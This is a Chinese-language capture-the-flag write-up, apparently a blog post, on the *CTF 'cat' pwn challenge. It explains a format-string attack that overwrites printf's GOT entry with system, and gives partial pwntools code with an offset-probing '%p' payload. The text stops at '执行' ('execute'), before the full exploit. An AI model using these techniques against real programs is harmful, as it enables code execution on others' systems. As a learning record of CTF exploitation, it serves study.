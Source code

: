 ```yaml
---
title: writeup.starctf.pwn.cat
date: 2019-07-22 17:17:42
categories: writeup
tags: [writeup, pwn]
---
```


日前入门pwn，粗浅学习了写shellcode，rop，栈溢出攻击，现在遇到了fmtstr，把我头搞炸了，决定好好学习一下，写一篇文章作为记录，供日后参考


### 样本
题目：https://ctf.sixstars.team/challenges#cat
文件下载：[下载](https://ctf.sixstars.team/files/9f9bdd29cf592733719a1620ba51e0d7/main)
参考资料：[Hint](https://veritas501.space/2017/04/28/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/)
Remote：`$ nc pwn.sixstars.team 22015`
### 分析
![](https://i.loli.net/2019/07/22/5d357efb453ee78822.png)
大概就是这样，程序里没有现成的 `shell` 可拿，所以想法是替换 `printf` 的 `GOT` 值为 `system` 的，然后输入 `/bin/sh` 完事，不知道这是不是叫做 `ret2libc`。
### 解题
首先要获得 `scanf` 写入的缓冲区的地址，或者说是在调用 `printf` 时栈上的偏移量。我使用 `Python 2.7` 与 `pwntools`。
这里是 `printf` 的 `plt` 段
![](https://i.loli.net/2019/07/22/5d357efbba71515728.png)
`printf` 的 GOT 偏移是不会变的，记录下来
```python
from pwn import *    
import struct 

GOT_PLT_ADDR = 0x601030 # printf
```
`scanf` 写入的缓冲区大小是1000，由于是64位题目，如果把地址放在前面会导致直接 `null byte` 截断，无法获得输出，所以把地址放在最后
```python
def pad(s):
    return s + "X"*(1000 - len(s) - 8)
```
先写一个获取偏移量的 `payload`。

```python
def calc_offset_payload():
    pl = ""
    pl += "AAAAAAAA" 
    pl += "|%p|" * 150
    pl = pad(pl)
    pl += struct.pack("Q", GOT_PLT_ADDR) 
    return pl
```

执行
